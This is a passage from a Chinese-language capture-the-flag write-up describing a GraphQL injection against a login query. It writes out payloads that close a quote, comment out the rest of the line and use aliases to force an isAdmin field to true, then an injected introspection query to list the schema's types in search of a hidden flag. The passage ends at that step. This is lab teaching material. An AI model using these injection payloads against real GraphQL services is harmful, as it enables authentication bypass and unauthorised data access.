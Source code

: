 首先闭合引号，并在末尾把这一行剩下的内容注释掉，然后就可以在中间注入我们的查询：

```graphql
") { login(username: $username, password: $username) {
    ok
    username
} #
```

但是这样注入后会有重复的两个 login，不是合法的 graphql 查询，这就要用到文档中提到的[别名（aliases）](https://graphql.org/learn/queries/#aliases)功能，它可以移花接木，把查询到的值套上任意的名字返回回来。因此，我们可以给代码中原本存在的那个 login 查询随便设置一个别名，来避免冲突并且让代码读取 `response['data']['login']` 时不会读到它，另外再设置一个别名用 ok 的值来填充 isAdmin 字段：

```graphql
") {
  login(username: $username, password: $username) {
    ok
    isAdmin: ok
    username
} foobar: #
```

这样注入之后的完整查询就是：

```graphql
query ($username: String = "foobar", $password: String = "") {
  login(username: $username, password: $username) {
    ok
    isAdmin: ok
    username
} foobar: #") {
  login(username: $username, password: $password) {
    ok
    isAdmin
    username
  }
}
```

这样注册一个用户名和密码都一样的用户，登录即可成功，从而 isAdmin 也返回和 ok 一样的 true，获得 flag。

### Flag 2

题目说 flag 2 藏在 schema 里面，那么就需要用到 [introspection](https://graphql.org/learn/introspection/)。观察题目给的示例 schema，可以看到除了在代码用引用到的 `type Secret` 之外还定义了大量名称里有随机后缀的类型，它们有的字段是无关紧要的值，有的字段则是其它类型，最终只有一个类型的一个字段是 flag2。因此我们需要从这么一个类型树中找到访问 flag 字段的正确查询路径。

首先根据上述文档注入一个 introspection 查询，查看定义了哪些类型：

```graphql
") {
login: __schema {
  ok: __typename
  isAdmin: __typename
  username: types {
    name
    fields {
      name
    }
  }
}
foobar: #
```
